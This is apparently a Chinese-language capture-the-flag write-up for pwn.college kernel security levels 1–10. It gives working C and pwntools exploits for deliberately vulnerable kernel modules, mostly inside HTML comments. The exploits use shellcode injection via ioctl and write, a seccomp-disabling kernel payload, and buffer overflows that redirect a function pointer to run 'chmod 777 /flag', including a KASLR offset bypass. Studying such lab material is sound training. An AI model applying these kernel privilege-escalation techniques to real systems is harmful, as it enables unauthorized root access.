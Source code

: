 ```yaml
---
title: pwn.college Kernel Security
date: 2024-07-15 15:44:34
tags: [pwn.college, Linux Kernel]
categories: 
    - pwn.college
    - Linux Kernel Security
---
```



# 前言
- 根据要求只贴前两个的WriteUp，后续只写思路
- 每个题的驱动都是跑在qemu虚拟机的，开启题目后需要`vm connect`连上qemu，此时`lsmod`就可以看见安装好的驱动

# level1.0
```Shell
echo pwvrvqitxoodqbxa > /proc/pwncollege | head /proc/pwncollege
```

# level1.1
```Shell
echo ufyqfbjmxahuzqzi > /proc/pwncollege | head /proc/pwncollege
```

# level2.0
```Shell
echo clxyrfcckjpuexis > /proc/pwncollege | dmesg
```

# level2.1
```Shell
echo ccvqignnvespgtyp > /proc/pwncollege | dmesg
```

# level3.0
write写"xpmylzhkfevejscw"
<!-- ```Shell
echo xpmylzhkfevejscw > /proc/pwncollege | cat /flag
``` -->

# level3.1
同 level3.0
<!-- ```Shell
echo gwcifabytyzfdpjo > /proc/pwncollege | cat /flag
``` -->

# level4.0
ioctl传递"emrbpgldsrexybrh"
<!-- ```C
#include <stdio.h>
#include <fcntl.h>

int main() {
    int fd=open("/proc/pwncollege",O_RDWR);
    ioctl(fd,1337,"emrbpgldsrexybrh");
    system("/bin/sh");
    return 0;
}
``` -->

# level4.1
同 level4.0
<!-- ```C
#include <stdio.h>
#include <fcntl.h>

int main() {
    int fd=open("/proc/pwncollege",O_RDWR);
    ioctl(fd,1337,"gixhsazzowbivqrw");
    system("/bin/sh");
    return 0;
}
``` -->

# level5.0
ioctl传递后门函数的地址即可
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  long win = 0xffffffffc00004cd;
  int fd = open("/proc/pwncollege", O_WRONLY);
  ioctl(fd, 1337, win);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->

# level5.1
同 level5.0
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  long win = 0xffffffffc0000752;
  int fd = open("/proc/pwncollege", O_WRONLY);
  ioctl(fd, 1337, win);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->

# level6.0
直接传shellcode过去，它会自己执行
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  int fd = open("/proc/pwncollege", O_WRONLY);
  write(fd,shellcode,sizeof(shellcode));
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->

# level6.1
同 level6.0

<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  int fd = open("/proc/pwncollege", O_WRONLY);
  write(fd,shellcode,sizeof(shellcode));
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->


# level7.0
需要传一个结构体，字段如下：
```C
struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};
```
传入的shellcode会被复杂都内核开辟的一段可执行地址内，该地址固定，将call_addr设置为该地址就可以跳过去执行shellcode
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  // char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xe0\x95\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\xc0\x92\x08\x81\xff\xd0\xc3";
  struct buf A;
  int fd = open("/proc/pwncollege", O_WRONLY);
  A.size=4096;
  memcpy(A.shellcode,shellcode,sizeof(shellcode));
  // A.call_addr=0xffffc90000045000;//local
  A.call_addr=0xffffc90000085000;//remote
  ioctl(fd, 1337, &A);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->

# level7.1
同 level7.0
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  // char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xe0\x95\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\xc0\x92\x08\x81\xff\xd0\xc3";
  struct buf A;
  int fd = open("/proc/pwncollege", O_WRONLY);
  A.size=4096;
  memcpy(A.shellcode,shellcode,sizeof(shellcode));
  // A.call_addr=0xffffc90000045000;//local
  A.call_addr=0xffffc90000085000;//remote
  ioctl(fd, 1337, &A);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->


# level8.0
这个卡了两天0.0，需要注意下面几个点：
- /proc/challenge只有root用户才有RW权限
- /challenge下除了babykernel_level8.1.ko还有带SUID的ELF程序babykernel_level8.1
- babykernel_level8.1可以执行任意shellcode，但是seccomp禁用了除了write外的所有系统调用；babykernel_level8.1.ko的write可以接收用户空间的shellcode以执行
- 因为babykernel_level8.1有SUID所以可以读写/proc/challenge
- 思路就是通过babykernel_level8.1向/proc/challenge写入shellcode在内核空间中关闭seccomp，然后在用户空间ORW读取flag
- 注意通过current_task_struct->thread_info.flags关闭seccomp只能作用于该进程，通过system('/bin/sh')获取的shell是子进程，seccomp仍然生效

<!-- ```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/challenge/babykernel_level8.1')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
rdi=0x0000000000402273
sc=b'j\x03_j-Z\xbe\xa0p31j\x01X\x0f\x05H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.gm`f\x01\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x051\xc0j\x04_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20\x0f\x05j\x01_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20j\x01X\x0f\x05'
sc=sc.ljust(0xa0,b'\x90')
sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xff\xc3\x00'
# sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xffH\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3\x00'

io.sendline(sc)
# io.sendline("cat /flag")
io.interactive()

``` -->

# level8.1
同 level8.0
<!-- ```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/challenge/babykernel_level8.1')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
rdi=0x0000000000402273
sc=b'j\x03_j-Z\xbe\xa0p31j\x01X\x0f\x05H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.gm`f\x01\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x051\xc0j\x04_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20\x0f\x05j\x01_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20j\x01X\x0f\x05'
sc=sc.ljust(0xa0,b'\x90')
sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xff\xc3\x00'
# sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xffH\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3\x00'

io.sendline(sc)
# io.sendline("cat /flag")
io.interactive()

``` -->

# level9.0

可以控制第一个参数call任意函数，run_cmd("chmod 777 /flag")
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  int fd = open("/proc/pwncollege", O_WRONLY);
  char payload[]="/bin/chmod 777 /flag ;;;;;;;;;;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x80\x95\x08\x81\xff\xff\xff\xff";
  write(fd,payload,264);
  return 0;
}
``` -->
# level9.1

同 level9.0


# level10.0
和level9一样，但是开启了KASLR，泄露printk地址后计算run_cmd偏移再通过溢出修改printk指针为run_cmd
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>

void int64_to_bytes(int64_t num, uint8_t *bytes, int byte_count) {
    for (int i = 0; i < byte_count; i++) {
        bytes[i] = (num >> (8 * i)) & 0xFF;
    }
}


int main() {
  long printk_addr,run_cmd_addr;
  printk_addr=0xffffffffaf8b6309;
  run_cmd_addr=printk_addr-0x2CD89;
  uint8_t bytes[8];
  int64_to_bytes(run_cmd_addr,bytes,8);
  int fd = open("/proc/pwncollege", O_WRONLY);
  char payload[]="/bin/chmod 777 /flag ;;;;;;;;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
  memcpy(payload+256,bytes,8);
  write(fd,payload,264);
  return 0;
}
 -->

# level10.1
同 level10.0

# level11.0

# level11.1
